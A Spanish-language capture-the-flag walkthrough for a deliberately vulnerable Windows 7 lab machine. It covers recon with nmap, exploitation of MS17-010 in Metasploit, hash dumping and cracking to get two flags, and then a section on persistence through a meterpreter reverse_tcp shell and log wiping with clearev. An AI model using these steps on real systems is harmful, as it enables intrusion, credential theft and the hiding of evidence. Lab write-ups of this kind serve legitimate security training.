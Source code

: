 # Máquina Eternal

Dificultad --> Facil

Enlace de la maquina --> https://github.com/Rondon-Jesus92/Maquinas-Virtuales-CTF/blob/main/Descarga-de-Maquinas/eternal-VMware.zip

Instrucciones --> Se necesita instalar VMawre Workstation para poder virtualizar la maquina

'

--------------------------------------------------------------------------------------------------------------------------------------------------------------------

'

## 1.Reconocmiento

Utilizamos el comando **--> sudo arp-scan -l <--** para encontrar la dirección IP de la Maquina 💻 victima

[![reconocimiento.jpg](https://i.postimg.cc/RVGV6vBt/reconocimiento.jpg)](https://postimg.cc/1fnZbh4R)

Escaneando puertos y sus versiones utilizando el comando **nmap** con diferentes parámetros a la IP que conseguimos 🔎

[![reconocimiento2.jpg](https://i.postimg.cc/1RK41Gfs/reconocimiento2.jpg)](https://postimg.cc/ThpTrWV4)



[![reconocimiento3.jpg](https://i.postimg.cc/X77qjrCF/reconocimiento3.jpg)](https://postimg.cc/8s9NwPwP)


Convertimos el archivo que se nos genero para visualizarlo mejor con el siguiente comando **--> xsltproc blue-nmap-results.xml -o blue-nmap-results.html <--** y luego lo abrimos con el navegador


[![reconocimiento4.jpg](https://i.postimg.cc/rFnmKq1H/reconocimiento4.jpg)](https://postimg.cc/Xp53PSDK)


[![reconocimiento5.jpg](https://i.postimg.cc/G2x3rR3q/reconocimiento5.jpg)](https://postimg.cc/qhgHX933)


### Resumen de la Información Obtenida

|IP             | Sistema OPerativo | Puertos/Servicios                | 
|:------------: |:-----------------:| :-------------------------------:| 
| 192.168.1.17  | Windows 7 ultime  | 135/tcp msrpc                    |
|               |                   | 139/tcp netbios-ssn              |
|               |                   | 445/tcp microsoft-ds             |
|               |                   | 49152-49157/tcp microsoft-rpc    |



## 2. Análisis de Vulnerabilidades / Debilidades

Buscamos un exploit con el comando **--> searchsploit ms17-010 <--** la vulnerabilidad que conseguimos

[![analisis.jpg](https://i.postimg.cc/tTqQ3xyN/analisis.jpg)](https://postimg.cc/McFFxXnn)

## 3. Explotación

Abrimos metasploit con el comando **--> msfconsole <--**, luegos buscamos el exploit MS17-010 con el comando **--> search MS17-010 <--**
Se nos desplegara varias opciones la cual vamos a seleccionar es la N° 0 con el comando **--> use 0 <--**

[![explotacion.jpg](https://i.postimg.cc/qR1fjvvV/explotacion.jpg)](https://postimg.cc/N92P0YXp)

Cambiamos el parametro RHOSTS por la IP de la maquina victima 💻, para luego proceder a ejecutar el exploit 💣


[![explotacion2.jpg](https://i.postimg.cc/ZKBkxZk2/explotacion2.jpg)](https://postimg.cc/xc2F9w13)


Ejecutamos el siguiente comando **--> hashdump <--**

[![explotacion3.jpg](https://i.postimg.cc/sXdCvNHq/explotacion3.jpg)](https://postimg.cc/670mPYXf)

Conseguimos unas credenciales encriptadas las cuales la podemos decifrar en diferentes paginas online como por ejemplo **crackstation**

[![explotacion4.jpg](https://i.postimg.cc/DykV6H2z/explotacion4.jpg)](https://postimg.cc/xqRFTsNr)

Ya tenemos la contraseña del usuario **Hacker Mentor User** y del usuario **Hacker Mentor Admin**, podemos acceder a cada uno de los usuario y en el escritorio vamos a conseguir la **Bandera1** y la **Bandera2**

### Accediendo al usuario Hacker Mentor User


[![bandera1.jpg](https://i.postimg.cc/W36Ctbkq/bandera1.jpg)](https://postimg.cc/vgT3NyXG)


### Accediendo al usuario Hacker Mentor Admin


[![bandera2.jpg](https://i.postimg.cc/wMwrcfF6/bandera2.jpg)](https://postimg.cc/30D93ZP6)



## 4.Banderas 🏁

|Bandera 1 | 0ef3b7d488b11e3e800f547a0765da8e |
|:--------:|:--------------------------------:|
|Bandera 2 | A63c1c39c0c7fd570053343451667939 |


## 5.Extra 🚨

Vamos a proceder a realizar persistencia en esta maquina 💻, ejecutamos el comando **--> getpid <--** y luego **--> ps <--** para ver los procesos que se estan ejecutando

[![persistencia.jpg](https://i.postimg.cc/28R6W0MQ/persistencia.jpg)](https://postimg.cc/vDhbFtQT)


Luego vamos hacer una migración de proceso al 2872 del admin

[![persistencia2.jpg](https://i.postimg.cc/j2Vszjgx/persistencia2.jpg)](https://postimg.cc/2bwRYCNM)

Realizamos un Backgrounding y cambiamos el exploit por el exploit/windows/local/persistence

[![persistencia3.jpg](https://i.postimg.cc/Twn8vJ0x/persistencia3.jpg)](https://postimg.cc/1nR7p6b7)


Seleccionamos el payload windows/x64/meterpreter/reverse_tcp

[![persistencia4.jpg](https://i.postimg.cc/qMkPWn3f/persistencia4.jpg)](https://postimg.cc/V5VZCJg4)

Modificamos el DELAY y la SESSION

[![persistencia5.jpg](https://i.postimg.cc/2y34B2tR/persistencia5.jpg)](https://postimg.cc/9w546tVJ)

Procedemos a Realizar un run

[![persistencia6.jpg](https://i.postimg.cc/vBK4CM0k/persistencia6.jpg)](https://postimg.cc/47z49CkQ)

luego usaremos los siguientes comandos:

**--> use exploir/multi/handler**

**--> set payload windows/x64/meterpreter/reverse_tcp**

[![persistencia7.jpg](https://i.postimg.cc/YS59x8jB/persistencia7.jpg)](https://postimg.cc/DWcnvrqx)

Ahora vamos a proceder a modificar el LHOST por la IP de nuestra maquina 🖥️

[![persistencia8.jpg](https://i.postimg.cc/PrJjPYrW/persistencia8.jpg)](https://postimg.cc/HjqKNJMn)

Verificamos que todos los parametros esten correctos y procedemos hacer run 

[![persistencia9.jpg](https://i.postimg.cc/nMbGbq3y/persistencia9.jpg)](https://postimg.cc/5QgC8Qdg)

A pesar de que la maquina la han reiniciado aun tenemos acceso 🥷, ahora por ultimo vamos a proceder a realizar un borrado de huella 🤫👣 con el comando **--> clearev <--**


[![borradohuella.jpg](https://i.postimg.cc/x8YL69qQ/borradohuella.jpg)](https://postimg.cc/8JKF5QhX)
